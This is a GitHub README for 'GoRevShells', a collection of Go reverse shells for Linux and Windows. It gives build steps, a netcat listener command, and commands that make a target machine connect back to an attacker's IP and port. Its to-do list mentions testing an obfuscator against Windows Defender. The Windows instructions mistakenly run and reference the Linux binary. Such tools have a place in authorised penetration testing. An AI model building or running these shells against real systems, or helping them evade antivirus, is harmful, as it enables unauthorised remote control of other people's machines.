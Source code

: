 [![forthebadge](https://forthebadge.com/images/badges/60-percent-of-the-time-works-every-time.svg)](https://forthebadge.com) [![forthebadge](https://forthebadge.com/images/badges/0-percent-optimized.svg)](https://forthebadge.com) [![forthebadge](https://forthebadge.com/images/badges/certified-snoop-lion.svg)](https://forthebadge.com)
# GoRevShells
Basic reverse shells for linux and windows written in Go. Based off of @yougg's Go reverse shells: https://gist.github.com/yougg/b47f4910767a74fcfe1077d21568070e

## How to run (basic compilation; plenty of guides online on how to specify target operating system & architecture)
```
$ git clone https://github.com/NihilistPenguin/GoRevShells.git
$ cd GoRevshells
```
#### For linux target:
```
$ cd linux
$ GOOS=linux go build linrev.go
```
Start netcat listener on host: `$ nc -nvlp PORT`<br>
On target machine: `$ ./linrev IP:PORT` or `$ ./linrev` (uses value set in *const default_host* of linrev.go file)

#### For windows target:
```
$ cd windows
$ GOOS=windows go build winrev.go
```
Start netcat listener on host: `$ nc -nvlp PORT`<br>
On target machine: `$ .\winrev IP:PORT` or `$ .\linrev` (uses value set in *const default_host* of linrev.go file)


## TODO:
- add option for verbose output
- make it not infinitely attempt to dial
- test it with obfuscator against Windows Defender
- add functionality for upload/download?
- other stuff I can't think of right now
